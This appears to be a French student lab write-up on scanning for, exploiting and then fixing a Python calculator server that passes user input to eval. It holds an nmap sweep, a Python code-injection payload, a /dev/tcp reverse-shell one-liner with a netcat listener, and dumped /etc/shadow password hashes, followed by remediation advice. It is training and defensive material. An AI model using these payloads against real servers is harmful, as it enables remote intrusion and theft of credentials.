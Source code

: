 # TP5 : Exploit, pwn, fix

## Sommaire

  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 1. Reconnaissance

🌞 **Déterminer**

Le client essaye de se connecter à l'adresse IP 10.1.2.12 et au port 13337.

Sans avoir accès au code source, on pouvait également voir ce qu'il se passe en lançant le client et en regardant les communications avec Wireshark.

🌞 **Scanner le réseau**

[La petit capture Wireshark](./tp5_nmap.pcapng)

Et le petit nmap :
```
[axel@fedora ~]$ sudo nmap -sS 10.33.64.0/20 -p 13337
Nmap scan report for 10.33.66.165
Host is up (0.012s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.028s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0090s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0068s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Intel Corporate)

Nmap done: 4096 IP addresses (865 hosts up) scanned in 227.73 seconds
```

🌞 **Connectez-vous au serveur**

On met une des IP trouvées par nmap à la place de l'ancienne IP pour que ça marche.

Il s'agit d'une calculatrice "en ligne".

## 2. Exploit

🌞 **Injecter du code serveur**

A mettre dans la zone d'input pour que le serveur me ping.

Il faut aussi modifier le code côté client pour retirer la regex.
```
__import__('os').system('ping -c 1 10.33.79.35')
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**


Côté *hacker* :
```
nc -lvnp 9001
```
Ce qu'il faut mettre dans la zone d'input :
```
__import__('os').system('sh -i >& /dev/tcp/10.33.79.35/9001 0>&1')
```
Et **POP** un shell.

🌞 **Pwn**

etc/shadow :
```
cat /etc/shadow
root:$6$Ac2Zned208vSDVSn$wKuS7q/pIYPo90yin8zl6Ocxd/liQd4aCTnzQEwsTQ2feosGAovhMqxFR.oladVr3G8UbXf2/u.OzeDfWM4aq.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19621::::::
dbus:!!:19621::::::
tss:!!:19621::::::
sssd:!!:19621::::::
sshd:!!:19621::::::
systemd-oom:!*:19621::::::
it4:$6$bV62paDqH/ZQSVFb$jiBgcgpkuzmmoZSvvLPwpd4gjwvnKQEWTE119tMNTnICtMcJ6dyPcDCVaTur8j5UQFuxAAM6eTimGdr97Nagh1::0:99999:7:::
```
etc/passwd :
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:993:993:systemd Userspace OOM Killer:/:/usr/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
```

[ICI](./serveur.py) pour le code du serveur.

Il y a seulement le serveur python et ssh :
```
ss -tupnl
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 2      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4))
```

## II. Remédiation

🌞 **Proposer une remédiation dév**

J'ai modifié le code pour ne plus utiliser la fonction eval et vérifier l'input utilisateur.

Voici le [code](./serveur_modified.py)

Ici il y a une regex qui cherche une expression regulière (comme la version client initialement) et j'ai fais une mini calculatrice pour remplacer eval.
On gagne donc en sécurité mais perds la possibilité d'ajouter d'autres opérations facilement.

Une autre version du [code](./serveur_modifiedv2.py)

Qui lui re utilise la fonction eval.

Ici il y a seulement la même regex.

🌞 **Proposer une remédiation système**

Le user qui fait tourner le serveur est root.
```
whoami
root
```
Il faudrait créer un user spécial pour le serveur qui a uniquement les droits de lancer ce script et écrire dans le fichier de log.

Aussi ça pourrait être sympa de faire tourner tout ça dans un docker container.

[Ici](./Dockerfile) un exemple de Dockerfile.

[Et ici](./docker-compose.yml) un exemple de docker compose.